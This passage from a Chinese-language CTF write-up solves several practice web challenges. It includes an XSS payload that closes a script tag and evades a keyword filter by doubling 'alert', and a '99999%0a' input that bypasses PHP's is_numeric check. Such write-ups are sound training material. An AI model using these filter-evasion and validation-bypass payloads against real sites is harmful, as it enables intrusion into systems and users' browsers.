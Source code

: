 抓返回包或者当头部传进去都可以，得到flag所在文件
`fffffffffffffffffffffffffffffffflaggggu9821347981.php`

![](https://s2.loli.net/2022/03/09/Qx6MrRlWbXqTIOe.png)

访问之

![](https://i.loli.net/2021/11/08/tTzLCacEPspSq5Z.png)







## babyxss

如题，成功输入alert(1)即可，构造闭合：

```
'"</script><script>alalertert(1);</script>
```

![](https://i.loli.net/2021/10/21/RjXwKyvJWHLbFZk.png)



## Baby_PHP_Black_Magic_Enlightenment

```php
<?php
echo "PHP is the best Language <br/>";
echo "Have you ever heard about PHP Black Magic<br/>";
error_reporting(0);
$temp = $_GET['password'];
is_numeric($temp)?die("no way"):NULL;    
if($temp>9999){
    echo file_get_contents('./2.php');
    echo "How's that possible";
} 
highlight_file(__FILE__);
//Art is long, but life is short. So I use PHP.
//I think It`s So useful that DiaoRen Said;
//why not they use their vps !!!
//BBTZ le jiarenmen

?>
```

绕过is_numeric()，%0a啥的就行

```
?password=99999%0a
```

提示下一关在baby_magic.php

![](https://i.loli.net/2021/10/27/oQta8gseMlhbVEB.png)
